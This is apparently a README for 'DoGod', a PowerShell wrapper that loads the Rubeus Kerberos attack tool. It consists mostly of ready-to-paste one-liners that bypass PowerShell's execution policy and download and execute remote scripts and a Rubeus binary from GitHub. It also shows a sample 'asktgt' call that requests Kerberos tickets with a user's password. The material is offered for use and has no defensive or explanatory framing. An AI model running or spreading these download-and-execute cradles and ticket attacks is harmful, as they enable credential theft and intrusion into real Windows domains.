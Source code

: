 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DoGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

Way 1:
IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))

Way 2 (for running updated version : v2.2.0):

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-Sharpcradle.ps1'))

Rubeus Commands:
Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe

or,

Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe -Argument1 asktgt /user:Bob /password:user@123


Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
